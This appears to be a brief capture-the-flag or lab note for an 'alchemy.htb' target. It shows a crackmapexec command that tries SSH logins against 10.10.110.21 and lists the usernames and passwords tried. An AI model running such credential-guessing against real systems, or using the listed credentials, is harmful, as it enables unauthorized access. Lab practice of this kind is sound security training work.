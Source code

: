 ```bash
crackmapexec ssh 10.10.110.21 -u userlist -p passlist                                                                                              
```
![[Pasted image 20240613121340.png]]
# Userlist & Passlist used

userlist
```bash
calde_ldap
calde_ldap@alchemy.htb
calde
aepike
aepike@alchemy.htb
```
passwordlist
```bash
CsAdlLDAPMoDeBrnd12!
LandIAtErOUs
```